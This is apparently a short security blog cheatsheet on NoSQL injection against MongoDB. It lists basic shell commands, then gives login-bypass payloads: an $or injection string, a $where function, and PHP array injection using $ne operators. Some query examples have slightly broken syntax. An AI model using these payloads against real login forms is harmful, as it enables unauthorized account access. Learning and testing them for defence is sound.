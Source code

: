 ```yaml
---
layout: post
title:  "NoSQL injections"
date:   2019-1-1 16:57:56 +0100
---
```

# NoSQL cheatsheet
## Databases
* List databases: `show dbs`
* Specify database: `use database_name`
* Check current database: `db`
* Delete database: `db.dropDatabase()`

## Collections
* List collections: `show collections`
* Create collection: `db.createCollection(name)`
* Create collection with automatic `_id` field: `db.createCollection(name, {autoIndexId: true})`
* Delete collection: `db.collection_name.drop()``

## Operations examples
```
db.logins.find();
db.logins.find().pretty();
db.logins.find({$and: {key1: value1}, {key2: value2}});
db.logins.find({$or: {key1: value1}, {key2: value2}});
db.logins.find({key1: value1});
db.logins.find({key1: {$ne: value1}}); // Not equal
db.logins.find({key1: {$lt: value1}}); // Less than
db.logins.find({key1: {$lte: value1}}); // Less than or equal
db.logins.find({key1: {$gt: value1}}); // Greater than
db.logins.find({key1: {$gte: value1}}); // Greater than or equal
```


# NoSQL OR injections
* `login=admin',$or:[{},{'a'='a&pass='}]`
* `find( {'$where' : 'function() { return artist == "Weezer"; }'} )`

# PHP array injections
* PHP associative arrays: `$collection->find(array('login' => 'test'))` equivalent to `find({'login': 'test'})`
* Automatic array creation: if `page.php?param[foo]=bar` then `param == array('foo' => 'bar')`
* If `db->logins->find(array(“username”=>$_POST[“username”],
“password”=>$_POST[“password”]));`, then `login[$ne]=test&password[$ne]=test` transformed to `array(“username” => array(“$ne” => 1), “password” =>
array(“$ne” => 1));` equivalent to `{ username: { $ne: 1 }, password: { $ne: 1 } }`
